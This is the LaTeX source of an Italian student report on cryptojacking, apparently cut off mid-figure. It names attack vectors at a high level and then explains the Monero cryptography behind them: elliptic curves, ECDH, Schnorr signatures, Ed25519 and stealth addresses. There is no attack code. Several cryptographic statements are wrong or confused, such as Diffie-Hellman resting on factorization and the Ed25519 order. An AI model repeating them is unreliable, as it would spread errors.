\documentclass[12pt,a4paper]{article}
\usepackage{textcomp, gensymb}
\usepackage[italian]{babel}
\usepackage{newlfont}
\usepackage{gensymb}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{mathtools}
\usepackage{amssymb}

\textwidth=450pt\oddsidemargin=0pt
\begin{document}
\begin{titlepage}
\begin{center}
\rule[0.5cm]{15.8cm}{0.6mm}
{\small{\bf Relazione di Crittografia }}
\end{center}
\vspace{15mm}
\begin{center}
{\LARGE{\bf Cryptojacking:} \\ 
\vspace{3mm}
{\bf quando il tuo personal computer lavora per qaualcun altro.}}
\end{center}
\vspace{35mm}
\par
\noindent
\begin{center}
{\large{\bf Elvis Perlika}}
\end{center}
\begin{center}
{\large{\bf 0000970373}}
\end{center}
\hfill

\vspace{70mm}
\begin{center}
{\large{\bf Corso di Crittografia \\ 
A.A. 2023-2024 \\
Prof. Luciano Margara}}
\end{center}
\end{titlepage}

\newpage

\tableofcontents

\newpage

\section{Introduzione}
\subsection{Definizione}

Il Cryptojacking, in Italiano "Dirottamento di risorse", è una forma di attacco
informatico che sfrutta la potenza di calcolo di un utente, senza che esso ne
sia consapevole, per minare criptovalute. \cite{CSO}

L'obbiettivo degli hacker è quello di prendere il controllo del maggior
numero possibile di sistemi con l'obbiettivo di minare quante più criptovalute. Questo sistema di hacking non punta unicamente la classica utenza
di Personal Computer ma cerca di sfruttare anche le risorse di Server,
infrastrutture Cloud e in generale ogni tipologia di macchina computazionale con un accesso alla rete Internet.

La caratteristica fondamentale di questo malware è far sì che la vittima sia
ignara dei processi in background, i quali effettuano il mining, e
permettergli di usare la propria macchina normalmente. Ovviamente, il tutto, a
discapito di un sovraccarico della macchina e conseguente surriscaldamento,
presenza di lag, maggior consumo elettrico (che nel caso di servizi Server o
Cloud porta ad avere fatture particolarmente elevate) e riduzione delle
performance generali. È nelle skills del cyber-criminale riuscire a mantenere 
questi effetti collaterali il più nascosti possibile se vuole mantenere il controllo della macchina per il maggior tempo possibile.

Questo paper si propone di analizzare il fenomeno del cryptojacking, i metodi di
attacco, le tecnologie coinvolte e i relativi aspetti tecnici per poi esporre le
contromisure per prevenire e individuare questi malware al intero delle proprie
macchine. In particolare, nella sezione \hyperref[sec:aspetti_tecnici]{"Aspetti
Tecnici"} si andarà ad analizzare nel dettaglio il mining di Monero, una delle
criptovalute più utilizzate per il cryptojacking e l'algoritmo RandomX (che ha
sostituito CryptoNight), utilizzato per minare Monero.

\subsection{Storia}

Una delle prime forme di cryptojacking è stata scoperta nel Giugno 2011, quando
l'azienda Symantec Corporation iniziò a sospettare che le botnet \footnote{Una
botnet è un gruppo di dispositivi connessi a Internet, ognuno dei quali esegue
uno o più bot . Le botnet possono essere utilizzate per eseguire attacchi DDoS (
distributed denial-of-service ), rubare dati, [1] inviare spam e consentire
all'aggressore di accedere al dispositivo e alla sua connessione. Il
proprietario può controllare la botnet utilizzando un software di comando e
controllo (C\&C). [2] La parola "botnet" è una parola risultata dalla unione
delle parole " robot " e " network ". Il termine è solitamente utilizzato con
una connotazione negativa o
malevola.\footnote{\href{https://arc.net/l/quote/ftyxgxms}{Botnet, Wikipedia}}}
potessero minare Bitcoin segretamente, sebbene la GPU di una sola macchina
impiegherebbe molto tempo per minare una transizione in criptovalute,
utilizzando una grande quantità di macchine si riesce a suddividere il lavoro e
di conseguenza ridurre il tempo.

Una serie di attacchi rilevanti di cryptojacking sono stati scoperti dal 2011
(come quello sopra citato) al 2021. L'ultimo è relativo al "2021 Microsoft
Exchange Server data breach"
\footnote{\href{https://arc.net/l/quote/golshtco}{2021 Microsoft Exchange Server
data breach, Wikipedia}}, tale breccia, creata nel Gennaio 2021 ha permesso
numerosi attacchi tra qui diversi di tipo cryptojacking.

Il cryptojacking è emerso come una minaccia significativa nel campo della
cybersecurity intorno al 2017, con l'introduzione di Coinhive, dismesso poi a
Marzo 2019, era un servizio di mining di criptovalute attraverso i browser web 
che andava a utilizzare parte o tutta la potenza di calcolo per minare
criptovalute Monero (approfondimento nella sezione
\hyperref[sec:aspetti_tecnici]{"Aspetti Tecnici"}). 

\subsection{Struttura del documento}
La seguente relazione è strutturata in modo da fornire una panoramica generale
del cryptojacking nei capitoli iniziali per poi approfondire maggiormente la
parte tecnica che viene eseguita computazionalmente dalle macchine, in questa
parte saranno definiti i concetti principali delle Curve Ellittiche che poi
saranno usati per comprendere la tecnologia del mioning e gli aspetti che
rendono Monero una criptovaluta di particolare rilevanza. Una volta compresa la
parte tecnica si tornerà ad approfondire il perché Monero ed il cryptojacking
siano così popolari, come individuare questo tipo di malware e come prevenire
l'infiltrazione degli stessi nei nostri sistemi. In coda verranno presentati dei
casi reali, nei quali vengo spiegati i passi che i cybercriminali hanno seguito
per colpire alcune grandi realtà tecnologiche. L'ultimo capitolo è dedicato alla
bibliografia.

\subsection{Problema e Motivazione}
Questo documento punta a fornire al lettore una maggiore comprensione del mondo
delle criptovalute e di come queste possono portare alcuni soggetti a compiere
atti criminali allo scopo di arricchirsi con esse. Si vuole formire ai lettori
le armi per comprendere se la propria macchina o quella, ad esempio aziendale,
su cui si sta lavorando sia infetta e come prevenire una possibile iniezzione di
malware di cryptojacking.

In questo periodo storico la computazione rapida ed efficiente sono
deterministici nel ambito della ricerca e in quello del \textit{consumer
service} e, di conseguenza, trovarsi con macchine che impiegano parte della loro
capacità di computazione per scopi di cui il proprietario della macchina non è a
conoscenza causa gravi danni economici oltre a danni ambientali dovuti ad un non
calcolato consumo energetico.

\newpage

\section{Come funziona}
Il mining è il processo che Bitcoin e altre criptovalute utilizzano per coniare
virtualmente nuove monete digitali e certificare le transazioni effettuate dagli
utenti usando le stesse monete. Il mining è un processo lecito ed incentivato dal sistema stesso delle crypto-valute ma lo rimane fintanto che il processo è effettuato su macchine di proprietà dell'utente o su macchine sulle quali l'utente ha il permesso di eseguire questo tipo di operazioni.

Nel dettaglio troviamo vaste reti decentralizzate di computer in tutto il mondo
che verificano e proteggono le blockchain, ovvero i registri virtuali che
documentano le transazioni di criptovalute. In cambio del contributo della loro
potenza di elaborazione, l'utente del computer della rete, che per primo risolve
i calcoli complessi dovuti alla certificazione della transizione, viene premiato
con nuove monete. Si tratta di un circolo virtuoso: i minatori mantengono e
tutelano la blockchain, la blockchain assegna le monete, le monete fungono da
incentivo ai minatori per continuare a mantenere la blockchain. Il mining non è
l'unico modo per rilasciare nuove cripto monete nella rete, anche il creatore
della criptovaluta può decidere di rilasciare nuove monete da dividire con i
suoi utenti. Il mining è un processo che richiede molta potenza di calcolo con
un effort inversamente proporzionale al mining effettuato portando così ad un
aumento della difficoltà di mining e ad una conseguente crescita dei costi.

Il cryptojacking sfrutta questo processo. Gli hacker inseriscono codice malevolo
nei siti web o nei messaggi di posta elettronica che infettano i computer delle
vittime e li trasformano in macchine per il mining riducendo i costi e di conseguenza aumentando i profitti. Questo processo, banalmente, è molto più redditizio rispetto al mining legale poiché non si devono sostenere i costi di hardware elettronico e di energia elettrica.

\newpage

\section{Metodi di attacco}
I metodi per attaccare un sistema con il cryptojacking sono molteplici e variano
a seconda del tipo di sistema che si vuole attaccare. I metodi più comuni sono:

\subsection{Attaccare direttamente i Personal Computer}
Attaccare uno o più PC è il classico metodo per creare un sistema di
cryptojacking. Tipicamente l'hacker riesce ad iniettare il suo software di
mining all'interno della macchina usando tecniche come:
\begin{itemize}
    \item \textbf{Fileless malware}: che a loro volta possono essere di 2 tipologie:
    \begin{itemize}
        \item \textit{Fully Fileless Malware}: non viene eseguito nessun file
        sul disco rigido ma tutte le attività possono essere osservate mentre
        sono in esecuzione in memoria. Gli hacker possono anche, attraverso la
        rete, inivare pacchetti malevoli che installano backdoor che risiedono
        nella memoria kernel.
        \item \textit{Fileless Malware with Indirect File Activity}: non scrive
        direttamente i file sul disco, ma gli autori della iniezzione possono
        installare un comando PowerShell all'interno del repository WMI
        configurando un filtro WMI per la persistenza. Anche se in teoria
        l'oggetto WMI dannoso esiste su un disco, non tocca il file system sul
        disco. Si tratta quindi di un attacco senza file poiché, secondo
        Microsoft [34], "l'oggetto WMI è un contenitore di dati multiuso che non
        può essere rilevato e rimosso".\cite{FMW}
    \end{itemize}
    \item \textbf{Schemi di phishing}: è il modo più semplice con cui gli
        aggressori di cryptojacking possono rubare risorse è inviare agli utenti
        un'e-mail dall'aspetto legittimo o innoquo che li incoraggi ad acccedere
        ad un collegamento dannoso. Questo collegamenteo esegue il codice per
        inserire uno script di cryptomining sul computer della vittima. Funziona
        in background e invia i risultati tramite un'infrastruttura di comando e
        controllo (C2\footnote{Command and Control Infrastructure: anche
        conosciuto come C\&C o C2 è il set di strumenti e tecniche che un un
        hacker utilizza per mantenere la commuicazione con il computer
        precedentemente compresso.}).
    \item \textbf{Embedded di script malevoli al interno di siti o web app}: gli
        hacker possono sfruttare script all'interno dei siti, che eseguiti
        automaticamente dai browser, minano le cripto valute. Questo metodo è
        molto più diffuso e meno invasivo rispetto ai precedenti, poiché non
        scarica alcun codice nel dispositivo.
\end{itemize}

\subsection{Cercare server e dispositivi di rete vulnerabili}
I server sono un obiettivo molto ambito per gli hacker, in quanto sono
dispositivi estremamente potenti e spesso connessi a Internet 24/7. Gli hacker
possono sfruttare vulnerabilità come Log4J\footnote{"La vulnerabilità Log4j,
conosciuta anche come Log4Shell, è una vulnerabilità critica scoperta nella
libreria di registrazione Apache Log4j nel novembre del 2021. Sostanzialmente,
Log4Shell concede agli hacker il controllo totale dei dispositivi eseguendo
versioni di Log4j senza patch." - \href{https://arc.net/l/quote/zjujxamu}{IBM}}
per iniettare i propri sistemi di cryptojacking in queste potenti macchine.
Spesso i server compromessi vengono anche utilizzi come ponti per accedere con
maggior semplicità ad altri dispositivi per eseguire attacchi più complessi ed
orizzontali.

\subsection{Attaccare il sistema di produzione di software}
Un altro metodo molto comune è quello di attaccare le macchine è seminare
repository open-souce nelle quali è stato iniettato codice malevolo. Grazie ai
programmatori che utilizzano questi codici è possibile per gli hacker
raggiungere un numero elevato di macchine e scalare velocemente il loro sistema
di mining. Una volta entrati nella macchina del programmatore, possono cercare
di accedere anche ai server (ai quali spesso un programmatore è connesso per
lavoro), ai dispositivi di rete oppure ai servizi cloud ai quali esso è
connesso. In alternativa possono puntare a sub-iniettare questi script
all'interno dei progetti che i programmatori stanno sviluppando.

\subsection{Fare leva sulle infrastrutture cloud}
Come per i server, anche le infrastrutture cloud sono un obbiettivo molto ambito
poiché permettono di effettuare computazioni ancora più veloci. Uno dei metodi
più comuni per farlo è scansionare le API dei container esposti e utilizzare
tale accesso caricare del software di mining sulle istanze dei
container o sui server cloud interessati. L'attacco è in genere automatizzato
con un software di scansione che cerca server accessibili alla rete Internet
pubblica con API esposte o che permettono l'accesso senza autenticazione. Come
per i server, gli aggressori sfruttano il cloud service violato ed attraverso lo
stesso puntano a raggiungere altre infrastrutture simili. Questi sono gli
attacchi più redditizi. \\
L'aspetto rilevante, in tutti gli approcci sopra citati, è che gli hacker
vogliono e possano accedere a quante più macchine computazionali.

\newpage 

\section{Aspetti tecnici di Monero}\label{sec:aspetti_tecnici} Non è obbiettivo
di questo paper approfondire il tema delle criptovalute in senso generale ma si
vuole trattare il tema del mining in modo più specifico. Nella seguente sezione
si andrà ad analizzare il mining di Monero, una delle criptovalute più
utilizzate per il cryptojacking.

La criptovaluta Monero, inizialmente nota come BitMonero, è stata creata
nell'aprile 2014 come deriva della valuta proof-of-concept CryptoNote. Monero
significa "denaro" nella lingua Esperanto. Monero è, grazie alle sue features, una delle criptovalute più popolari per il mining.

Una delle filosofie di Monero è quella di mantenere un mining egualitario, in
modo che tutti possano avere la possibilità di fare mining. Per raggiungere
questo obiettivo, utilizza un algoritmo particolare ideato e sviluppato dai
membri della community della criptovaluta: RandomX. Questo algoritmo PoW
\footnote{Proof of Work} è resistente agli ASIC, il che rende impossibile
costruire hardware specializzato per fare mining di Monero. I miner sono
obbligati ad utilizzare hardware di livello consumer (cioè i semplici personal computer o dispositivi simili di carattere personale) e competere lealmente.

\subsection{Fondamentali}
Le curve ellittiche sono la funzione matematica che sta alla base della
crittografia delle criptovalute. Queste curve sono utilizzate per creare le
chiavi pubbliche e private che permettono di firmare e verificare le
transizioni. Procediamo con criterio per capire come funzionano le curve
ellittiche, questo sarà fondamentale per comprendere il funzionamento di Monero
e delle sue caratteristiche di privacy.

\subsubsection*{Aritmetica Modulare}
L'aritmetica modulare, detta anche \textit{Aritmetica dell'orologio}, è un
sistema di aritmetica degli interi, in cui i numeri "si avvolgono su loro
stessi" ogni volta che raggiungono i multipli di un determinato numero $ n $,
detto \textbf{modulo}.

Inconsciamente utilizziamo l'aritmetica modulare ogni volta che guardiamo un
orologio. Ad esempio, se sono le 10:00 e aggiungo 3 ore, il risultato sarà 1:00
e non 13:00. Questo perché l'orologio è un sistema di 12 ore, quindi il modulo è
12; questo è il motivo per cui viene chiamata \textit{aritmetica dell'orologio}.

Diciamo che per calcoalre $ c = a \mod{b} $ possiamo immaginare un asse di
numeri interi e posizionarci si $ a $ e 'saltare' con passi di lunghezza $ b $
fino a raggiungere un valore intero che sia $ \ge 0 $ e $ < b $, questo sarà il
nostro $ c $. Ad esempio:
$$ -5 \mod{3} = 1 \qquad \text{oppure} \qquad 4 \mod 3 = 1 $$

Formalmente possiamo definire l'equazione $ c = a \mod{b} $ come $ a = bx + c $
dove $ x $ è il quoziente e $ c $ è il resto di $ a \mod b $.

Ne seguono alcune proprietà che verranno definite in seguito ma è fondamentale capire che questo tipo di calcoli, su numeri a decine di migliaia di cifre, per un calcolatore sono di una difficoltà computazionale molto alta.

\subsubsection*{Curve Ellittiche}
Definiamo una curva ellittica $ E $ su un campo finito $ F_p $ dove $ p $ è un
numero primo a 256 bit e la presentiamo in forma di Weierstrass come:

$$ E: y^2 = x^3 + ax + b \enspace | \enspace x, y \in F_p $$

in cui $ a $ e $ b $ sono i parametri della curva che ne defiscono la forma e la
posizione. Le coordinate $ (x,y) $ sulla curva ellittica che possono prendere
qualsiasi valore all'interno di $F_p$ formano un Gruppo Abeliano \footnote{Un
gruppo abeliano è un gruppo in cui l'operazione beneficia della proprietà
commutativa È anche detto: Gruppo Commutativo}. Questo particolare gruppo ci
permette, scegliamo 2 punti $ P $ e $ Q $ sulla curva che useremo per risolvere
$ R $ andando a eseguire l'operazione di somma $ P + Q = R $ con $ R $ che sarà
un altro punto sulla curva.

Prendiamo gli scalari $p, q$ valori interi random di grandezza $n$ tali che $ p,
q \in {o,1}^n $.

Il Standards for Efficient Cryptography (SEC) è un set di curve ellittiche
proposte per l'uso nel campo della crittografia. Una delle più note e utilizzate
è la \textbf{Secp256k1} definita dalla equazione
$$ y^2 = x^3 + 7 \mod{p} $$ dove 
$$ p = 2^{256} - 2^{32} \underbrace{- 2^9 - 2^8 - 2^7 - 2^6 - 2^4 - 1}_{-977}
$$.

Questa curva è la base per la crittografia di Bitcoin e altre criptovalute.
Questa funzione possiede diverse qualità tali che è stata applicata, non solo
nel abito delle criptovalute, ma anche in altri campi per rendere le
commuicazione sicure; come quello del IoT. Monero, invece, utilizza la curva
Ed25519, di cui parleremo più avanti.

\subsection{Scambio di chiavi Diffie-Hellman con curve ellittiche}
Il protocollo di scambio di chiavi Diffie-Hellman (DH), inventato nel 1976, nato
dalla collaborazione dei ricercatori Whitfield Diffie e Martin Hellman, è il
primo protocollo a permettere a 2 parti di communicare attraverso un canale
insicuro senza necessità di condividersi una chiave segreta previa
commuicazione. Questo tipo di scambia è quello che comuneemente viene definito dai "cifrari a chiave pubblica".
Matematicamente, il protocollo D.H. si basa sul problema della fattorizzazione e
sul problema del logaritmo discreto nell'algebra modulare di cui abbiamo parlato nel paragrafo precedente.

Definiamo $ p $ un numero reale random tale che $0 < k < l$ che chiameremo
\textit{private key} e calcoliamo la relativa \textit{public key} $ P = k \cdot
G $ dove $ G $ è il generatore del gruppo abeliano in questione.

Un classico scambio di segreti tra Bob e Alice, utilizzando le curve ellittiche,
avviene nel seguente modo:

\begin{enumerate}
    \item Alice e Bob generano le proprie chiavi pubbliche e private $ (p_A,
    S_A) $ e $ (p_B, S_B) $ rispettivamente. Entrambi condividono le proprie
    chiavi pubbliche ma non quelle private.
    \item Assumendo
        $$ X = p_A \cdot S_B = p_A \cdot p_B \cdot G = p_B \cdot p_A \cdot G =
        p_A \cdot S_A $$

        Alice e Bob dovranno calcolarsi, privatamente: $ X = p_A \cdot S_B $ e $
        X = p_B \cdot S_A $. Queste saranno le chiavi condivise.

        Un osservatore esterno non riuscirà a calcolare $ S $, cioè il segreto,
        in modo semplice proprio a causa del problema di Diffie-Hellman. Infatti
        trovare $ S $ a partire da $ S_A $ e $ S_B $ è un problema
        computazionalmente estremamente difficile.
\end{enumerate}

\subsection{Shnorr Signature}
In crittografia, per Shnorr Signature si intende l'algoritmo di firma digitale
ideato da Clauss Schnorr nel 1989. È uno dei primi protocolli basati sulla
\textbf{impraticibiltà} nel risolvere il problema del logaritmo discreto, la sua
funzione è permette di dimostrare ad una delle 2 parti in comunicazione di
conoscere la chiave privata relativa a quella pubblica senza rivelare, appunto,
quella privata. Questo algoritmo ci sarà utile per quando tratteremo le Ring Confidential Transactions relative alle Ring Signatures di Monero.

\subsubsection*{Algoritmo}

È fondamentale che tutti gli utenti della commuicazione concordino sul gruppo
abeliano $ G $, di ordine $ q $, generato da $ g $ e per assunzione in questo
gruppo il problema del logaritmo discreto sia molto difficile. Oltre al gruppo
devono conconrdare anche su una funzione di hash sicura $ H:\{0,1\}^*
\rightarrow \mathbb{Z} / q\mathbb{Z} $.

\paragraph{Generazione delle chiavi}
Si sceglie una chiave privata $ p \in \mathbb{Z}_q $ e si calcola la chiave
pubblica $ S = g^{-p} $.

\paragraph{Firma}
Per firmare un messaggio $ m $ si procede nel seguente modo:
\begin{enumerate}
    \item si genera un numero reale random $ k \in \mathbb{Z}_q $
    \item si calcola $ x = g^k $ con $ x \in G $ 
    \item si calcola $ r = H(x || m) $ dove $ || $ rappresenta la concatenazione
    in stinghe di bit
    \item si calcola $ c = k + p \cdot r $ con $ e \in \mathbb{Z}_q $
\end{enumerate}

Abbiamo, così, creato la firma $ (c, r) $ per il messaggio $ m $. Chiameremo $ c
$ la 'challenge' e $ r $ la 'response'.

\paragraph{Verifica}
Per verificare la firma $ (c, r) $ si procede nel seguente modo:
\begin{enumerate}
    \item si calcola $ x_v = g^c\cdot y^r $
    \item si calcola $ r_v = H(x_v || m) $
\end{enumerate}
Se $ r_v = r $ allora la firma è valida.

\paragraph{Dimostrazione}
$$ x_v = g^c\cdot y^r = g^{k + p\cdot r}\cdot g^{-p\cdot r} = g^k = x $$ ed in
seguito:
$$ r_v = H(x_v || m) = H(x || m) = r $$ quindi il messaggio firmato corrisponde
a quello verificato.

Anche se un intruso, senza conoscere la chiave privata, avesse creato la firma
(c, r) sarebbe stato trascurabile, quindi un verificatore può essere sicuro che
il messaggio non sia stato manomesso.

\subsection{Curva Ellittica Ed25519}
Ed25519 è una particolare \textit{Twisted Edwards elliptic curve} che utilizza
Monero per le operazioni crittografiche. La curva è definita dal campo $
F_{2^{255} - 19} $ e dalla curva ellittica:
$$ -x^2 + y^2 = 1 - \frac{121665}{121666}x^2y^2 $$

La communità scientifica (il NIST) pensa che questa curva non sia così sicura e
affidabile. 

Le curve Twisted Edwards sono di ordine $ N = 2^c l $ con $ l $ numero primo e $
c $ un intero positivo. Nel caso di Ed25519 il suo ordine è di 76 cifre e quindi
$ l $ è a 253 bits.
$$ l = 2^3 \cdot
7237005577332262213973186563042994240857116359379907606001950938285454250989 $$

Il campo $ F_{2^{255} - 19} $ è codificato in 32 byte, ovvero 256 bit. Di
conseguenza, qualsiasi punto in Ed25519 potrebbe essere espresso utilizzando 64
byte poichè includono sia una rappresentazione del punto $ R $ che un valore
scalare $ S $ derivato da una computazione su una funzione di hash $ H $:
$$ S = (H + \textit{private key} \times H) \mod l $$ Applicando le tecniche di
Point Compression, descritte di seguito, tuttavia, è possibile ridurre questa
quantità della metà, a 32 byte utilizzando tecniche di "Point Compression"
\footnote{Le tecniche di point compression (compressione dei punti) sono metodi
utilizzati in crittografia ellittica per ridurre la quantità di dati necessari
per rappresentare un punto su una curva ellittica. Questo è particolarmente
utile per ridurre l'uso di memoria e banda, specialmente in applicazioni che
richiedono l'invio o la memorizzazione di grandi quantità di punti su curve
ellittiche, come nelle firme digitali o nei protocolli di scambio di chiavi.}.

\subsection{Shnorr Signature Avanzato}
In Shnorr base utilizziamo una sola chiave ma possiamo rendere Shnorr più
sofisticato utilizzando più chiavi. Questo è il caso dello schema Multi Layer
Linkable Spontaneous Anonymous (MLSAG), uno schema di firma che permette a più
utenti di firmare un messaggio in modo anonimo. 

Può essere vantaggioso dimostrare che la stessa chiave privata è stata
utilizzata per generare chiavi pubbliche su basi diverse. Per esempio,
consideriamo una chiave pubblica standard $kG$ e un segreto condiviso di
Diffie-Hellman $kR$ con la chiave pubblica di un'altra persona, dove le basi
sono rispettivamente $G$ e $R$. In questo contesto, possiamo dimostrare la
conoscenza del logaritmo discreto $k$ relativo a $kG$, provare la conoscenza di
$k$ in $kR$, e confermare che $k$ è identico in entrambe le situazioni, senza
tuttavia rivelare il valore di $k$.

È possibile trovare una \textit{Non-interactive proof\footnote{}} a pagina 25
del white paper di Monero \cite{Zero To Monero}.

Chiamiamo Non-Interactive Proof un metodo crittografico in cui una parte (il
provatore) può dimostrare a un'altra parte (il verificatore) che una certa
affermazione è vera senza interagire direttamente con il verificatore durante il
processo di prova, diversamente da \textit{Zero-Knowledge proofs} che necessità
di una interazione tra le parti simultanea.

\subsection{Privacy in Monero}
Monero può essere estratto sia da CPU che da GPU, ma la prima è molto più
efficiente. E' evidente che sia la criptovaluta più pratica per il
cryptojacking, poiché può essere minata solo su macchine a livello consumer, le
quali sono faccilemente accessibili da cyber-criminali attraverso i metodi
precedentemente citati. Inoltre, utilizza una blockchain\footnote{Libro
contabile digitale condiviso in rete, è il sistema fondamentale di una
criptovaluta in quanto tiene memoria di tutte le transizioni eseguite nella
storia della realtiva criptovaluta. Viene detta blockchain poiché è una catena
di blocchi, ognuno rappresenta una transizione che viene agganciata alla catena
attraverso la risoluzione di calcoli complessi (mining).} supportata da un
\textbf{Privacy-enhancing technologies} sofisticato al fine di fornire privacy e
anonimato, le feature più rilevanti sono: One Time Address, Amount Hiding e RingCT

\subsubsection*{Address}
In tutte le blockchain, per ogni utente viene generato un indirizzo, questo è
tutto ciò che serve per ricevere pagamenti. Poichè il libro mastro è pubblico,
tutti possono vedere gli indirizzi e le transizioni e si può facilmente
comprendere per ogni indirizzo l'ammontare di criptovaluta che possiede.

Un indirizzo Monero è una stringa di 95 caratteri alfanumerici che inizia con
\textit{4} per gli indirizzi standard e \textit{8} per gli indirizzi
integrati\footnote{Indirizzi Integrati combinano al indirizzo un ID codifificato
a 64-bit per identificare un pagamento. È possibile trovare un approfondimento a
pagina 41 de \cite{Zero To Monero}}. Un esempio di indirizzo Monero è:

\begin{verbatim}
    888tNkZrPN6JsEgekjMnABU4TBzc2Dt29EPAvkRxbANsAnjy
                    Pbb3iQ1YBRk1UXcdRsiKc9dhwMVgN5S9cQUiyoogDavup3H.
\end{verbatim}

Essendo difficile da ricordare e/o scrivere, Monero permette di generare un
indirizzo alias generato con una tecnologia Monero chiamata \textbf{OpenAlias}.
In genere i classici generatori di alias sono semplici database di coppie
chiave-valore, invece OpenAlias si comporta come un DNS, ovvero un sistema di
risoluzione degli indirizzi. Questa tecnlogia associa ad ogni indirizzo Monero
un nome di dominio, (ad esempio: donate.getmonero.org).

Monero, diveresamente da altre cripto valute come BitCoin, utilizza nella
transazione due coppie di chiavi private/pubbliche: $(k^v, K^v)$ e $(k^s, K^s)$.
La seconda coppia è l'indirizzo del utente, mentre la prima è la corrispondente
chiave privata. Indichiamo con $k^v$ le \textit{view key} e con $k^s$ la
\textit{spend key}.

La chiave di visualizzazione viene utilizzata per verificare se un'uscita è
associata al proprio indirizzo, mentre la chiave di spesa consente di "spendere"
quell'uscita in una transazione per poi confermare che è stata spesa.

Di seguito spiegherò in sintesi alcune scelte di design di Monero per garantire
la massima riservatezza e anonimato nelle transizioni. Se si vuole approfondire
si può consultare il white paper di Monero \cite{Zero To Monero} nelle pagine
37-42.

\paragraph{One-time address}
Se, generalmente, un utente deve condividere il proprio indirizzo per ricevere
pagamenti, Monero utilizza un sistema di indirizzi monouso. Come facciamo a
condividere un indirizzo monouso? Utilizzando uno scambio di tipo
Diffie-Hellman, così anche un osservatore che conosce tutti gli address non può
comprendere chi stia eseguendo la transizione e verso chi.

Facciamo un esempio: Alice vuole inviare 10 Monero a Bob. Bob ha le proprie
coppie di chiavi $(k^v_B, K^v_B)$ e $(k^s_B, K^s_B)$ e Alice conosce le chiavi
pubbliche di Bob quindi il suo inidirizzo.

Parafrasando Butrin\footnote{Vitalik Buterin, co-fondatore di Etherium}:
\begin{quote}
    Sia il destinatario (chiamiamolo "Bob") che il mittente ("Alice") possono
    generare un indirizzo invisibile per la transazione. Tuttavia, solo il
    destinatario, Bob, può controllare la transazione. Un altro modo di pensare
    a un indirizzo invisibile è come un indirizzo di portafoglio legato
    crittograficamente all’indirizzo pubblico di Bob, ma che viene rivelato solo
    alle parti che effettuano la transazione. - Buterin \cite{Buterin Quote}
\end{quote}

Questi One-time address sono anche detti \textbf{Stealth Address}. Il team di
Buterin ha progettato un sistema di indirizzi nascosti (anche detto SAP
\footnote{Stealth Address Protocol}) chiamato BaseSAP. Il protocollo mira a
fornire un meccanismo leggero che consenta agli utenti di generare indirizzi
temporanei, mantenendo la completa compatibilità con le versioni precedenti e
non richiedendo modifiche alla blockchain principale. BaseSAP è basato sul
cifrario assimetrico su curve ellittiche Secp256k1, migliorato attraverso
l'integrazione di "tags di visualizzazione" utili a rendere più efficiente
l'analisi rispetto ai comuni DKSAPs \footnote{Dual-Key Stealth Address
Protocols}.

Questo protocolli sono la base per le implementazioni DKSAP usate in Monero. Da
quando DKSAP è nato, ha portato molti ricercatori a studiare e trovare nuovi
modi per migliorarlo:

\begin{figure}[ht]
    \centering
